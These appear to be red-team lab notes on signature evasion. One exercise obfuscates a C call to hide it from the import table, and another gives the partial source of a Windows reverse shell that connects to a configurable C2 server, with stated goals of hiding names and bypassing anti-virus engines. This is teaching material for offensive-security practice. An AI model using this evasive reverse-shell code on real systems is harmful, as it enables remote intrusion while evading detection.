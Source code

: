![Signature Evasion Code Blocks-2.png](/img/user/cards/red-team/images/Signature%20Evasion%20Code%20Blocks-2.png)
## Behavioral Signatures
---
Obfuscate the following C snippet, ensuring no suspicious API calls are present in the IAT.

```C
#include <windows.h>
#include <stdio.h>
#include <lm.h>

int main() {
    printf("GetComputerNameA: 0x%p\\n", GetComputerNameA);
    CHAR hostName[260];
    DWORD hostNameLength = 260;
    if (GetComputerNameA(hostName, &hostNameLength)) {
        printf("hostname: %s\\n", hostName);
    }
}
```

### Solution
---
Per the Microsoft Docs:

![Signature Evasion Code Blocks-3.png](/img/user/cards/red-team/images/Signature%20Evasion%20Code%20Blocks-3.png)
Already given in notes.
## All of them at once
---
Change the `C2Server` and `C2Port` variables to receive a reverse shell:

Note: When compiling with GCC you will need to add compiler options for `winsock2` and `ws2tcpip`. These libraries can be included using the compiler flags `-lwsock32` and `-lws2_32`


```C
x86_64-w64-mingw32-gcc final.c -o challenge.exe -lws2_32 -lwsock32
```

The requirements:

1. No suspicious library calls present
2. No leaked function or variable names
3. File hash is different than the original hash
4. Binary bypasses common anti-virus engines

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

```